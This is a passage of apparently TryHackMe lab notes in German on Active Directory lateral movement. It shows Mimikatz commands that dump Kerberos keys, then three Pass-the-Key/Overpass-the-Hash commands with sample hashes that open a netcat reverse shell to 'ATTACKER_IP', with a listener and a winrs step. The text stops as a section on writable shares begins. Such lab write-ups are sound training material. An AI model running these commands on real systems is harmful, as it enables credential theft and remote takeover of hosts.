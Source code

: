 Wir können die Kerberos Verschlüsselungschlüssel mit Hilfe von Mimikatz aus dem Speicher laden:

```bash
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Mimikatz bietet die Möglichkeit, eine Reverse Shell (Netcat muss natürlich schon vorhanden sein) via Pass-the-Key herzustellen:

**If we have the RC4 hash:**

```bash 
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe 
ATTACKER_IP 5556"
```

**If we have the AES128 hash:**

```bash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES256 hash:**

```bash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**Achtung: Wenn wir RC4 nutzen, ist der Key gleich dem NTLM Hash des Users. Das bedeutet, wenn wir den NTLM Hash extrahieren können, können wir damit auch ein TGT anfragen, solange RC4 ein aktiviertes Protokoll ist. Diese Variante wird als Overpass-the-Hash bezeichnet**

Bevor wir die oberen Befehle ausführen, starten wir einen Listener auf unserer Maschine:

>nc -lvnp 5556

Genau wie bei Pass-the-Hash werden alle Befehle, die aus dieser Shell kommen mit den Credentials ausgeführt, die in Mimikatz injeziert wurden.

Auf der neuen Shell führen wir einfach folgendes aus:

>winrs.exe -r:THMIIS.za.tryhackme.com cmd

#### Damit haben wir dieses Kapitel abgeschlossen


# Abusing User Behaviour

Unter gewissen Umständen kann ein Attacker Aktionen von Benutzern ausnutzen um sich weiter im Netzwerk auszudehnen. Dafür gibt es viele Möglichkeiten, wir konzentrieren uns hier aber auf die häufigsten.

### Abusing Writable Shares

Es ist häufig so, dass man Network Shares findet, die von Nutzern für alltägliche Aufgaben genutzt werden. Wenn diese Shares aus verschiedenen Gründen "Writeable" sind, könnte ein Attacker bestimmte Dateien platzieren und User dazu bringen, schädlichen Code auszuführen um so Zugriff auf den Rechner des Users zu bekommen.
